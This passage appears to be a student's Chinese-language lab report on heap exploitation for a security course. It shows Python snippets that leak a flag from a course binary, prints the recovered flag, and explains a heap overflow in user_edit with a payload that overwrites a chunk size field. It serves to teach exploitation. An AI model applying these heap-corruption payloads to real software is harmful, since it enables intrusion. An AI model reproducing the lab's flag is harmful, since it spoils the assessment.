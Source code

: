```python
idx = AddUser(b"Anya1"*4, b"Reese"*4, b"A"*0x10, b"555555"*3)
name, motto, flag = ShowUser(idx, b"Reese"*4)
```

本地测试通过：

![alt text](img/3220103784-林子昕-lab3/image-6.png)

远程测试通过，得到 flag：`flag{hE4P_cAN_be_DIR7y_4s_5T4CK}`

![alt text](img/3220103784-林子昕-lab3/image-7.png)

### Task2 堆溢出

> 找到 overflow/overflow.c 中的堆溢出漏洞，编写攻击脚本触发该漏洞；（10 points）

在 user_edit 函数中存在堆溢出：当编辑用户信息时，向 intro 指针写入的长度(0x60)大于实际分配的内存大小(0x40)。

```py
# Create two adjacent users
idx1 = AddUser(b"Anyaa", b"Reese", b"intro1", b"motto1")
idx2 = AddUser(b"Meave", b"Weily", b"intro2", b"motto2")

# Check initial state
name, motto, intro = ShowUser(idx2, b"Weily")
print(f"Name: {name}\nMotto: {motto}\nIntro: {intro}")

# Construct overflow payload
payload = b"A" * 0x40
payload += p64(0x71)
payload += b"\x00" * 7
payload += b"OVERFLOW"
```
